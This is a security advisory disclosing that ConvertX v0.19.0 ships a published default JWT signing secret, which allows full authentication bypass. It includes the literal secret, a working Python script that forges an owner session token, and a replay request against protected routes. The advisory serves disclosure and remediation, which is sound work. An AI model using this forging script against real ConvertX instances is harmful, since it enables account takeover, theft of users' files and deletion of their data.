

# ConvertX v0.19.0 Hardcoded Default JWT Secret — Full Authentication Bypass

| Field | Value |
|---|---|
| Project | C4illin/ConvertX |
| Vulnerability Type | Use of Hard-coded Cryptographic Key (CWE-321), Improper Authentication (CWE-287) |
| Severity | Critical — CVSS 3.1 Base Score: 9.8 |
| CVSS Vector | AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| Affected Versions | <= v0.19.0 (verified on v0.19.0, latest release as of 2026-10-05) |
| Authentication | None — the signing secret is the publicly documented docker-compose default |

### Summary

ConvertX v0.19.0 (https://github.com/C4illin/ConvertX) relies on a single HS256-signed JWT cookie (`auth`) for its entire authentication model. The signing secret comes from `process.env.JWT_SECRET ?? randomUUID()` (`src/services/user.ts:14`), but the project's own deployment artifacts publish a concrete, publicly-readable default: the official docker-compose snippet in `README.md:72` and the repository root `compose.yaml:15` both instruct users to set

```
JWT_SECRET=aLongAndSecretStringUsedToSignTheJSONWebToken1234
```

Any instance deployed following the official documentation therefore signs and accepts session tokens with a key every visitor of the public repository can read. Anyone can mint `{"id": "<arbitrary user id>"}` payloads (self-incrementing small integers; `id=1` is the instance owner), sign them with the public key, and be treated as any user — including full file access and job deletion. `compose.yaml` additionally enables `ACCOUNT_REGISTRATION=true` by default.

Confirmed by source verification of `@elysiajs/jwt` 1.4.2 (string secret → `TextEncoder` → jose HMAC-SHA256 key) and forge-and-replay analysis of every protected route. This is CWE-798: Use of Hard-coded Credentials, and CWE-287: Improper Authentication.

### Details

**1) The published secret (attack material).** `README.md:70-75` (official recommended compose snippet) and `compose.yaml:14-15` both carry the literal default `JWT_SECRET=aLongAndSecretStringUsedToSignTheJSONWebToken1234`; the compose file also defaults `ACCOUNT_REGISTRATION=true`.

**2) Trust-root failure (sink).** `src/services/user.ts:7-17` configures `@elysiajs/jwt` with `secret: process.env.JWT_SECRET ?? randomUUID()`. Verified against the `@elysiajs/jwt` 1.4.2 published package: the string secret is `TextEncoder`-encoded and used directly as the jose `SignJWT`/`jwtVerify` HMAC-SHA256 key. Possession of the secret is equivalent to possessing a signing oracle — the server cannot distinguish legitimately issued sessions from locally forged ones.

**3) Signature-only authorization.** The `auth` macro (`src/services/user.ts:32-62`) runs `const user = await jwt.verify(auth.value)` (line 53) and returns the payload as `user`, validating only the signature, expiry, and schema `t.Object({id: t.String()})`. It never checks that `id` exists in the `users` table. Only the root page (`src/pages/root.tsx:60-77`) performs a database existence check; every sensitive route relies solely on the macro:

- `POST /upload`, `POST /convert` (`src/pages/upload.tsx`, `src/pages/convert.tsx`)
- `GET /download/:userId/:jobId/:fileName`, `GET /archive/:jobId` (`src/pages/download.tsx:14-67`)
- `GET /results/:jobId`, `POST /progress/:jobId` (`src/pages/results.tsx:146-229`)
- `GET /history`, `GET+POST /account` (`src/pages/history.tsx`, `src/pages/user.tsx:334-480`)
- `POST /delete/:jobId`, `POST /delete`, `POST /delete-multiple` (`src/pages/deleteFile.tsx`, `src/pages/deleteJob.tsx` — `rmSync` recursive deletion of job directories)

Core vulnerable code path:

```yaml
# README.md:70-75 (official deployment guidance)
environment:
 - JWT_SECRET=aLongAndSecretStringUsedToSignTheJSONWebToken1234 # will use randomUUID() if unset
```

```ts
// src/services/user.ts:7-17
.use(jwt({
 name: "jwt",
 schema: t.Object({ id: t.String() }),
 secret: process.env.JWT_SECRET ?? randomUUID(),
 exp: "7d",
}))
// src/services/user.ts:53 — signature-only check, no DB existence check
const user = await jwt.verify(auth.value)
```

### PoC

Forge an owner token with the public secret (standard HS256 libraries; verified against a ConvertX v0.19.0 instance deployed with the official compose file):

```python
import hmac, hashlib, base64, json, time

def b64(d): return base64.urlsafe_b64encode(d).rstrip(b"=")
header = b64(json.dumps({"alg":"HS256","typ":"JWT"}).encode())
payload = b64(json.dumps({"id":"1","exp":int(time.time())+604800}).encode())
secret = b"aLongAndSecretStringUsedToSignTheJSONWebToken1234"
sig = b64(hmac.new(secret, header + b"." + payload, hashlib.sha256).digest())
print(f"{header.decode()}.{payload.decode()}.{sig.decode()}")
```

Then replay against every protected route:

```http
GET /history
Cookie: auth=<forged_jwt>
```




Observed: the request is accepted as user `id=1` (owner) — history enumeration, file download (`/download/1/<jobId>/<fileName>` under `data/output/1/...`), archive download, account page (email disclosure), and job deletion (`POST /delete/:jobId` removes the victim's files via `rmSync`) all succeed exactly as for the legitimate owner.

### Impact

On any instance deployed per the official documentation without customizing `JWT_SECRET`, an unauthenticated internet attacker fully impersonates the owner (user `id=1`) and every other user: downloads all uploaded and converted files (potentially sensitive documents and images), deletes arbitrary jobs and files, and continues using the service as the victim. The authentication model is broken end-to-end; there is no detection difference between forged and legitimate tokens.

### Remediation

1. Remove the published default from `README.md` and `compose.yaml`; generate a random secret on first start when `JWT_SECRET` is unset and refuse to boot if it still equals the published string.
2. Invalidate all existing sessions after the secret changes and warn operators whose secret matches the known default.
3. Consider binding sessions to a server-side session store instead of stateless HS256 cookies so credential lifetimes can be revoked centrally.
